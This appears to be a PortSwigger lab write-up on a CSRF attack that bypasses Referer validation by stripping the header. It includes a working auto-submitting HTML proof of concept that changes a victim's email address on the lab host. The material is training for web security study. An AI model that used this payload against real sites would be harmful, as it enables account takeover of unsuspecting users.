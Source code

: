 # CSRF where Referer validation depends on header being present

> **Vulnerability Type:** CSRF  
> **Lab URL:** [CSRF Lab](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present)

## Objective  
Perform a CSRF attack that gets around the cross-domain protections to change the email address on another user's account

## Setup  
- **Tools Used:** Burp Suite  
- **Environment Details:** PortSwigger Lab
---
### 1. **Discovery**  
- **Initial Observations:**  
  - On the change email HTTP request, there is no CSRF token.
- **Testing Approach:**  
  - The Referer header can be edited in the query parameter, but when you attempt to change the domain, it blocks the request. To bypass this, I need to remove the header as the domain cannot be edited. The lab name hints at this. I use the generate CSRF POC function and add `<meta name="referrer" content="no-referrer">` to remove the referrer header from the victim request.
---
### 2. **Exploitation**  
- **Payload Used:**  
  ```html
  <html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
   <meta name="referrer" content="no-referrer">
    <form action="https://0ab700d4039d202c83950192002100a0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="whatever@gmail.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
  </html>
